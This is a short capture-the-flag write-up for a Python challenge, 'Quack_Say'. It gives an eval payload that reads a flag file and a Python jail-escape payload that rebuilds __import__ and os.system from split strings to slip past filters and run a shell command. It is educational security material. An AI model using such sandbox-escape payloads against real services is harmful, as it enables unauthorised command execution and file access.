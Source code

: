 # Quack_Say

### 1st part

`open('flag1.txt','r').read()`


### 2nd part
`
__builtins__.__dict__["".join(('__impor','t__'))]("".join(('o','s'))).__dict__["".join(('syste','m'))]('cat flag2.txt')`

##


So the first part was pretty straight forward. I just googled up the work of the `eval` function in python and the job was done.

Now the second part was actually a good one for me. This was my first solve in `pwn category` style challenges. I had been looking up a lot of stuff in google. Found out something called sandboxing in python. So saw a few videos in youtube but that didn't really help much. Then I searched for jailbreak problems in google which straight away hooked me up to a webpage which explained the concept of builitins in python via a similar problem. It took quite a few hours to solve this problem and I am happy that I finally solved this.

[Here](https://anee.me/escaping-python-jails-849c65cf306e) is the link to the website which helped me in this problem 
